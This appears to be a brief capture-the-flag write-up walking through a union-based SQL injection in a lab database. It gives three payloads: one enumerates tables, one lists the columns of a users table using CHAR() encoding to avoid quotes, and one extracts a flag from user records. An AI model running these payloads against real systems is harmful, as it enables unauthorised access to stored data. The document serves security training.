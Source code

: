 Enumerate All Tables:

First, you listed all the tables in the database to identify potential tables containing the flag or other sensitive data.
SQL Injection Command:

sql
Copier le code
5 UNION SELECT table_name, NULL FROM information_schema.tables -- 
Enumerate Columns in a Target Table (users):

After identifying the users table, you listed all the columns to find which columns might store useful information.
SQL Injection Command:

sql
Copier le code
5 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = CHAR(117, 115, 101, 114, 115) -- 
(Note: The CHAR() function is used here to represent the string 'users' without using quotes.)

Extract Data from Specific Columns Containing "Flag":

Finally, you extracted data from columns in the users table where the first_name was "Flag" to find the final hint or the flag.
SQL Injection Command:

sql
Copier le code
5 UNION SELECT Commentaire, countersign FROM users WHERE first_name = CHAR(70,108,97,103) -- 
(Note: The CHAR() function is used here to represent the string 'Flag'.)
